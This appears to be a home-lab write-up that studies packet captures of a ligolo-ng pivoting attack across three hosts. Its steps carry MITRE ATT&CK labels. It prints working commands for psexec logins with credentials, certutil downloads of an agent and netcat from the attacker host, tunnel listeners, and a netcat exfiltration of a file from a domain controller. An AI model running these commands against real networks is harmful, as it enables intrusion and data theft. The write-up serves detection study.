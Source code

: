 
I started a network capture on BOX-COMPUTER and DC01 on all interfaces during a simple pivoting setup. 
This showcases significant packets that contextualise attacker behaviour. 
This is not meant to be a tutorial for [ligolo-ng](https://github.com/nicocha30/ligolo-ng). 

| Host         | IP                           |
| ------------ | ---------------------------- |
| kali         | 192.168.18.128               |
| BOX-COMPUTER | 192.168.18.5<br>10.10.15.128 |
| DC01         | 10.10.15.10                  |

# Initial psexec login
[SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002/)  
kali compromises BOX-COMPUTER:
```zsh
impacket-psexec webby/john:'P@ssw0rd'@192.168.18.5
```
![1_psexec.png](screenss/1_psexec.png)


Agent file downloaded to BOX-COMPUTER
[Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)  
```cmd
certutil -urlcache -f http://192.168.18.128/c2/agent.exe .\agent.exe
```
![2_transferagent.png](screenss/2_transferagent.png)  

Agent connected
```cmd
.\agent.exe -connect 192.168.18.128:11601 -ignore-cert
```

[Protocol Tunneling](https://attack.mitre.org/techniques/T1572/)  
BOX-COMPUTER Capture of the first handshake
![3_agentconn.png](screenss/3_agentconn.png)  

interface shown in ligolo console  
![4_othersubnet.png](screenss/4_othersubnet.png)


# Pivot to other subnet
Add route to the internal subnet, start tunnelling through the agent
![5_addroute.png](screenss/5_addroute.png)  
![6_tunnelstart.png](6_tunnelstart.png)  

Add listener on agent for kali web server.
```zsh
listener_add --addr 0.0.0.0:8888 --to 0.0.0.0:80
```


kali compromised DC01
```zsh
impacket-psexec webby/Administrator:'P@ssw0rd'@10.10.15.10
```


Despite capturing at both interfaces, BOX-COMPUTER capture can no longer see kali's activities in its internal subnet, due to the tunnel encapsulation and encryption. All packets forth are encrypted within this tunnel.  
![7_encryption.png](screenss/7_encryption.png)  


DC01 capture shows BOX-COMPUTER as the origin of psexec login  
![8_psexec2.png](screenss/8_psexec2.png)  


Kali wants to exfiltrate file  
![9_wantfile.png](screenss/9_wantfile.png)  

Download of nc64.exe
```cmd
certutil -urlcache -f http://10.10.15.128:8888/revshell/nc64.exe .\nc64.exe
```

DC01 capture shows BOX-COMPUTER hosting a web server due to the port forwarding in place  
![10_transfernc.png](screenss/10_transfernc.png)  


Kali setup listener on agent to listen for file
```zsh
listener_add --addr 0.0.0.0:5555 --to 0.0.0.0:5555
```
```zsh
nc -nvlp 5555 > donottouch.txt
```


[Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/)  
DC01 shell send file to agent
```cmd
.\nc64.exe 10.10.15.128 5555 < donottouch.txt
```

DC01 capture showing file contents in plaintext  
![11_exfiltration.png](screenss/11_exfiltration.png)  


Kali received file
```zsh
listening on [any] 5555 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 46072
^C
```
![12_stolenfile.png](screenss/12_stolenfile.png)
